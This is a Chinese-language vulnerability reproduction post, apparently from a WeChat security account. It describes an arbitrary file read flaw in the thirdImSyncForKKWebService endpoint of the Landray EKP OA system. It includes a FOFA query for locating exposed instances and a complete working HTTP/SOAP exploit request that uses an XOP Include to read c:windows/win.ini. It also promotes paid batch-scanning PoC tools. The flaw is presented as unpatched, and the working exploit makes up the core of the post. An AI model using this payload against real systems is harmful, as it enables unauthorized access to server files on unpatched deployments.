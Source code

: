 #  蓝凌EKP系统thirdImSyncForKKWebService接口存在任意文件读取漏洞 附POC   
2024-12-26更新  南风漏洞复现文库   2024-12-26 13:53  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 蓝凌EKP系统简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
蓝凌EKP系统  
## 2.漏洞描述  
  
蓝凌是国内知名的大平台OA服务商和国内领先的知识管理解决方案提供商，是专业从事组织的知识化咨询、软件研发、实施、技术服务的国家级高新技术企业。蓝凌EKP系统thirdImSyncForKKWebService接口存在任意文件读取漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
蓝凌EKP系统  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3byXq7aIX5UcaTe4hwpp1CaLjY638AuESWsWI53gsI1crUQFUqXIr6Eibv3OBCxxSOibcc9g5CtibgGA/640?wx_fmt=png&from=appmsg "null")  
  
蓝凌EKP系统thirdImSyncForKKWebService接口存在任意文件读取漏洞  
## 4.fofa查询语句  
  
body="Com_Parameter"  
## 5.漏洞复现  
  
漏洞链接：http://xx.xx.xx.xx/sys/webservice/thirdImSyncForKKWebService  
  
漏洞数据包：  
```
POST /sys/webservice/thirdImSyncForKKWebService HTTP/1.1
User-Agent:Mozilla/4.0(compatible; MSIE 8.0;Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept:*/*
Connection: close
Host: xx.xx.xx.xxx
SOAPAction: ""
Content-Type: multipart/related; boundary=----oxmmdmlnvlx08yluof5q
Content-Length: 544

------oxmmdmlnvlx08yluof5q
Content-Disposition: form-data; name="a"

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://webservice.kk.im.third.kmss.landray.com/">
<soapenv:Header/>
<soapenv:Body>
<web:getTodo>
<arg0>
<otherCond>1</otherCond>
<pageNo>1</pageNo>
<rowSize>1</rowSize>
<targets>1</targets>
<type><xop:Include xmlns:xop="http://www.w3.org/2004/08/xop/include" href="file:///c:windows/win.ini"/></type>
</arg0>
</web:getTodo>
</soapenv:Body>
</soapenv:Envelope>
------oxmmdmlnvlx08yluof5q--
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3byXq7aIX5UcaTe4hwpp1Caqs53iaT5ghCz9Oct1bsyVR9QOtsZVyMrW5GEGP9wBpocuIj4Z8g6Ppg/640?wx_fmt=jpeg&from=appmsg "null")  
  
返回的文件需要base64解码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3byXq7aIX5UcaTe4hwpp1Ca7rkJPPKKuMMq3uAD0H21lO4h6ibtnOl5YATWxPcrIU0jQ426I2Ae7icQ/640?wx_fmt=png&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3byXq7aIX5UcaTe4hwpp1CansGVAPK8icJepf3WL8oykuoBEfou2sGImo9ia67dUMuTJxUicfrT9a3pw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3byXq7aIX5UcaTe4hwpp1CaCnUGR6y8F08pfkXvibEXAvbx1XR5CibVyjqj6xX515LSYNaFtu99FQgw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3byXq7aIX5UcaTe4hwpp1CamdDZH7icRw6FYGIbGqv8LBg20FPZ9icLv5LV4jwSsNeogVcHjzMbKweA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3byXq7aIX5UcaTe4hwpp1CapE0DOYffmtZUoHlDPte03nSBjeZkZrCbta8sYYmHxRpBZX3P90ee6w/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3byXq7aIX5UcaTe4hwpp1CaOHqwqChCwRlLAib7cib933SjqGa0HVOHtgwLcfSPHEyVReDDPdKyXgbQ/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
目前厂商尚未提供相关漏洞补丁链接，请关注厂商主页及时更新：http://www.landray.com.cn  
## 8.往期回顾  
  
  
[大华DSS 系统attachment_downloadAtt.action存在任意文件读取漏洞 附POC](https://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487986&idx=1&sn=a88b5191db732c85f0b1e8f66e36f6da&scene=21#wechat_redirect)  
  
  
[YourPHPCMS checkEmail接口存在SQL注入漏洞 附POC](https://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487973&idx=1&sn=ae1887a94edc58e3f4368af534ceafa6&scene=21#wechat_redirect)  
  
  
